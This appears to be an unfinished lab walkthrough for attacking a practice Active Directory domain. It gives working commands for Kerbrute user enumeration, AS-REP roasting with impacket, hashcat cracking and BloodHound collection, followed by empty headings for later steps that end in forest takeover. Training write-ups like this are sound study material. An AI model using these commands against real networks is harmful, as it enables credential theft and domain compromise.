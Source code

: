 # Manual

## Attack path visualized

![](<../../../../.gitbook/assets/image (68).png>)

### 1. Enumerate Users

**Task: Enumerate valid domain users.**

It is possible to enumerate valid domain users by sending TGT requests to the DC. One tool which can do this is [Kerbrute](https://github.com/ropnop/kerbrute). But before we can use this tool we need a list of valid usernames. A repository with a lot of lists for these kind of things is [SecLists](https://github.com/danielmiessler/SecLists).

1. Download the required tools:

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64 -O kerbrute
chmod +x kerbrute
git clone https://github.com/danielmiessler/SecLists
```

2\. After downloading the tool and the username list, run Kerbrute against the domain `amsterdam.bank.local` and DC `10.0.0.3`. Pipe the command to `tee` to save the output to the txt file `username_enum.txt`.&#x20;

```
./kerbrute userenum -d amsterdam.bank.local --dc 10.0.0.3 /opt/SecLists/Usernames/xato-net-10-million-usernames.txt | tee username_enum.txt
```

![](<../../../../.gitbook/assets/image (72).png>)

3\. To only get a list of usernames execute the following which will cut the output to only get the usernames, changes everything to lowercase and sorting for unique entries:

```
cat username_enum.txt | grep bank.local | cut -d " " -f 8- | cut -d "@" -f 1 | sed 's/./\L&/g' | sort -u > users.txt
```

```
cat users.txt                                                                                                       
administrator
bank
bob
chris
dave
david
john
mark
mike
richard
robert
steve
thomas
```

### 2. AS-REP roast

**Task: Check if any of the valid users are vulnerable to a kerberos vulnerability.**

One of the vulnerabilities which can be exploited with just a list of usernames without having access to a valid domain user already is checking if any of the users has pre-authentication enabled. If they do we can execute the AS-REP roasting attack and hopefully crack their hash and retrieve a password.

Other attacks which are possible to do is password spraying or checking if the user has an empty password. Which won't be covered in this attack path. But its possible to gain access to other users by executing these attacks in the lab.

1. We can use the `GetNPUsers.py` script from impacket to check if any of the users have this attribute set and AS-REP roast them, saving the hashes to asreproasting.txt

```
GetNPUsers.py amsterdam/ -dc-ip 10.0.0.3 -usersfile users.txt -format hashcat -outputfile asreproasting.txt
```

![](<../../../../.gitbook/assets/image (9).png>)

2\. The output doesn't show us any successes. But the file `kerberoasting.txt` is there and it has a hash:

![](<../../../../.gitbook/assets/image (67).png>)

3\. We can crack the hash with Hashcat. I transfered the file to my host since cracking in a VM isn't really ideal, it can't use the GPU then. I always run hashcat with rockyou and the dive ruleset.

```
.\hashcat.exe -a 0 -m 18200 .\asreproasting.txt .\wordlists\rockyou.txt  -r .\rules\dive.rule
```

![](<../../../../.gitbook/assets/image (34).png>)

4\. I cracked the hash within seconds and we gained access to the domain as `Richard` with the password `Sample123`.

#### Optional:

1. After gaining access to a valid set of credentials I always like to run BloodHound immediately. I normally run the PowerShell version of the BloodHound ingestor, but since we don't have access to a machine yet and I'm not connected on my W10 VM to the lab. We can also run the [BloodHound.py](https://github.com/fox-it/BloodHound.py) ingestor from FoxIt.

```
git clone https://github.com/fox-it/BloodHound.py
bloodhound-python -d amsterdam.bank.local -ns 10.0.0.3 -dc DC02.amsterdam.bank.local -u 'Richard' -p 'Sample123' --zip -c all
```

![](<../../../../.gitbook/assets/image (2).png>)

2\. We now can load the data into BloodHound by draggin the zip file into it and see if Richard can do anything usefull:

![](<../../../../.gitbook/assets/image (62).png>)

Richard is member of the following groups, nothing interesting there:

![](<../../../../.gitbook/assets/image (66).png>)

The attributes of the user also doesn't show anything interesting:

![](<../../../../.gitbook/assets/image (15).png>)

### 3. Access SQL Server

**Task: Check if the user can access any system or service.**



### 4. Become sysadmin

**Task: Escalate privileges to sysadmin.**



### 5. Execute commands

**Task: Get a shell.**



### 6. Privesc RBCD

**Task: Escalate privileges on the machine with a delegation attack.**



### 7. Abuse SQL Link

**Task: Enumerate SQL Links to hop across trusts.**



### 8. UNC Path injection

**Task: Perform a UNC Path injection and capture the hash of SQL Service user.**



### 9. Crack SQL account hash

**Task: Crack the hash of the SQL service user.**



### 10. ACL - Write Owner & RCBCD

**Task: Check for ACL's and get access to the system.**



### 11. Dumping DPAPI

**Task: Look for saved credentials on the machine (DPAPI).**



### 12. Privileged groups

**Task: Become domain admin by abusing the "Backup Operators" group.**



### 13. Kerberoast

**Task: Check for interesting user attributes across the trust to `bank.local`.**



### 14. Take over Foresat

**Task: Take over the `bank.local` forest.**

